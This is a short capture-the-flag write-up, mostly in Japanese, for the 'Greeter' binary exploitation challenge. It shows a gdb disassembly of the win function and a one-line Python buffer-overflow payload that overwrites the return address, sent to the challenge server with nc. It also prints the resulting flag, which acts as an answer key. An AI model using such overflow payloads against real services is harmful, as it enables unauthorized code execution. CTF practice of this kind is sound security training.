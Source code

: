# Greeter:Binary Exploitation:150pts
I'm really not sure who thought this thing was necessary, but here's a person-greeter-as-a-service!  
nc challenges.ctfd.io 30249  
[greeter](greeter)　　　　[greeter.c](greeter.c)  

# Solution
greeter.cを見ると自明なBOFがある。  
winを呼び出せばいいようだ。  
```bash
$ gdb ./greeter
~~~
gdb-peda$ disass win
Dump of assembler code for function win:
   0x0000000000401220 <+0>:     push   rbp
   0x0000000000401221 <+1>:     mov    rbp,rsp
   0x0000000000401224 <+4>:     sub    rsp,0x50
   0x0000000000401228 <+8>:     mov    edi,0x40206b
   0x000000000040122d <+13>:    call   0x401030 <puts@plt>
~~~
   0x000000000040128f <+111>:   mov    rdi,rax
   0x0000000000401292 <+114>:   call   0x401040 <fclose@plt>
   0x0000000000401297 <+119>:   nop
   0x0000000000401298 <+120>:   leave
   0x0000000000401299 <+121>:   ret
End of assembler dump.
gdb-peda$ q
$ python -c 'print("A"*64 + "\x20\x12\x40\x00\x00\x00\x00\x00")' | ./greeter
What's your name?
Why hello there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA @!
congrats! here's your flag:
flag file not found!
$ python -c 'print("A"*64 + "\x20\x12\x40\x00\x00\x00\x00\x00")' | nc challenges.ctfd.io 30249
What's your name?
Why hello there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA @!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}
What's your name?
^C
```
flagが得られた。  

## nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}